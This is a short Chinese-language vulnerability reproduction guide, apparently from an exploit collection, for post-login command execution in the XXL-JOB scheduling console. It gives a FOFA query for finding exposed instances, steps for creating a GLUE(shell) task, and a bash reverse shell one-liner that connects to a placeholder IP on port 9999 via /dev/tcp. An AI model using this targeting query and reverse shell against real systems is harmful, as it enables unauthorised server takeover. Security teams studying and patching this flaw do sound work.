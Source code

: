 # XXL-JOB-任务调度中心-后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

> [!NOTE]
>
> XXL-JOB

## FOFA

> [!NOTE]
>
> app="XXL-JOB" || title="任务调度中心"

## 漏洞复现

登录后台增加一个任务

![](XXL-JOB-任务调度中心-后台任意命令执行漏洞.assets/1627363083261912.jpg)

> [!NOTE]
>
> 注意运行模式需要为 GLUE(shell)

![](XXL-JOB-任务调度中心-后台任意命令执行漏洞.assets/1627363083521473.jpg)

点击 GLUE IDE编辑脚本

![](XXL-JOB-任务调度中心-后台任意命令执行漏洞.assets/1627363083716641.jpg)

![](XXL-JOB-任务调度中心-后台任意命令执行漏洞.assets/1627363084054791.jpg)

执行探测出网，和任务调用是否可执行

反弹一个shell

```
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![](XXL-JOB-任务调度中心-后台任意命令执行漏洞.assets/1627363084265783.jpg)